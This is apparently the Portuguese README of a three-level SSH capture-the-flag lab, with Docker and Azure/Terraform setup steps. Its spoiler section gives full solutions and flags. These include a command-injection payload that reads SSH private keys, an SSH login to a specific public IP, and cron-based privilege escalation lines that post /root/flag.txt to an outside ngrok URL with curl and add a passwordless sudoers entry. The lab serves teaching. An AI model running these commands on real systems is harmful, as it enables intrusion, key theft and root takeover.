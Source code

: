 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login (WIP), com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.txt.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.

## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a [Docker](https://docs.docker.com/get-docker/) e [Docker Compose](https://docs.docker.com/compose/install/). 
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x (via NVM ([linux](https://github.com/nvm-sh/nvm)/[windows](https://github.com/coreybutler/nvm-windows/releases)) ou [download direto](https://nodejs.org/en/))
  * SSH client (para Windows, [putty](https://www.putty.org/))
  * [AZ Cli](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli)
  * Terraform (caso queira publicar a infra no Azure via AzureRM)

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222
* nivel 3 - usa a mesma conexão do nível 2

## Publicando na Azure
Após instalar `AZ Cli` e `terraform` de acordo com as recomendações para o seu sistema operacional, é necessário iniciar algumas etapas:
1. `az login` (para logar em sua conta, basta seguir o passo a passo ao abrir o navegador)
2. `az account show` (para verificar se está utilizando a subscription correta, para trocar veja este [link](https://docs.microsoft.com/en-us/cli/azure/account?view=azure-cli-latest#az_account_set))
3. Na pasta do terraform, `terraform init` (para baixar o provider do Azure, azurerm)
4. `terraform apply` (para que o terraform conecte no azure e crie o plano de provisionamento)
5. Existem duas variáveis para orientar o terraform a provisionar o ambiente na região correta da Azure e com o prefixo adequado, por padrão, tenho utilizado `var.location=brazilsouth` e `var.prefix=ssh-game` mas não são valores obrigatórios, sinta-se livre para mudar
6. Se estiver de acordo com o plano e a subscription usada, responda com `yes` ao prompt do `terraform`
7. Ao finalizar o provisionamento, o Public IP via `output`, do terraform, será exibido no terminal
8. Por enquanto, a publicação está sendo feita através de um simples git clone do meu repositório, ainda privado.
9. Quando este repositório virar público, não será mais necessário utilizar SSH para dar clone, serão removidas sessões de upload de chave SSH privada e alterado o clone para HTTPS

TLDR para o terraform (ainda precisa de login no `AZ Cli` 
```bash
terraform apply -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para todos os recursos estarem provisionados e disponíveis ao uso.

## Não quero mais cobrança, quero destruir tudo isso ai lá na Azure 
```bash
terraform destroy -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para destruir todos os recursos.


## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.


## ** SOLUÇÕES - ESTE ESPAÇO É PARA SPOILERS DO GAME, NÃO ABRA CASO QUEIRA JOGAR DE VERDADE **
<details><summary>TUDO BEM, ME MOSTRA LOGO COMO RESOLVE ESSA COISA TODA!</summary>
<p>

### Nivel 1
Para conseguir acesso às chaves, utilize comandos shell com `ls -la` e `cat` nos arquivos da pasta `.ssh` 
```bash
google.com && ls -la .ssh  && cat .ssh/id_rsa.pub && cat .ssh/id_rsa
```

FLAG: L3CTF{y0u_sh311_n0t_p4ss} 

### Nivel 2
Para conseguir uma flag, basta conectar-se via SSH na máquina.
A ideia é que a pessoa consiga entender o nome do usuário para logar (via chave pública, id_rsa.pub, no comentário do arquivo) e baixe o conteúdo da chave privada (id_rsa)
O IP já terá sido fornecido para as pessoas jogarem.
Abaixo, a chave privada foi criada em /tmp/id_rsa (copiar e colar conteúdo do nivel 1)
```bash
ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -p 22 temp_user@191.234.178.199
```

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

### Nivel 3
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag/txt > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag.txt [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag.txt
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

</p>
</details>

